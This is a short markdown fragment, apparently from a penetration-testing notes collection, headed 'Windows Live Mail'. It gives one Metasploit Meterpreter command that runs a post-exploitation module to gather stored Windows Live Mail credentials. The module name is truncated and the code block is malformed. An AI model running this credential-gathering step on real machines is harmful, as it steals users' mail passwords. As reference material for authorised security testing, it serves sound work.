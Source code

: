 # Windows Live Mail

## 01 - Metasploit

```
meterpreter > run post/windows/gather/credentials/windowslivemai
```l